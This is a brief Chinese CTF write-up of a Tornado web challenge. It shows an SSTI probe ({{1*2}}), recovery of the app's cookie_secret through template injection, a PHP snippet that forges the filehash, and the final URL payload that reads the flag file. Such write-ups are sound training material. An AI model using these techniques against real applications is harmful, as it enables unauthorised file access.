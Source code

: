 @[toc]

##  前言

这个题就是不太算一个SSTI的题，就是对tornado框架的理解

##  解题思路

进网站后看到三个文件，分别打开

```
/flag.txt,flag in /fllllllllllllag
/welcome.txt,render
/hints.txt,md5(cookie_secret+md5(filname))
```

这个时候我们需要看到url有两个参数，filename和filehash。

网上搜tornado，发现是python的web框架，尝试用SSTI注入的方法

filename={{1*2}}

弹出error，我们又发现URL有参数msg，继续模板注入，注不进去。

回到hints.txt,发现filename有，只需找到cookie_secret.

在[tornado的handler.settings](https://xz.aliyun.com/t/2908)可以找到cookie_secret

最后就找md5的hash值

```php
<?php
$a=md5("/fllllllllllllag");
$b='180e88c0-6eba-4d44-84b5-3763dda49173'.$a;
echo md5($b);
```

payload:

```
filename=/fllllllllllllag&filehash=e8678b4a129b62d01f52a71c6e61257a
```







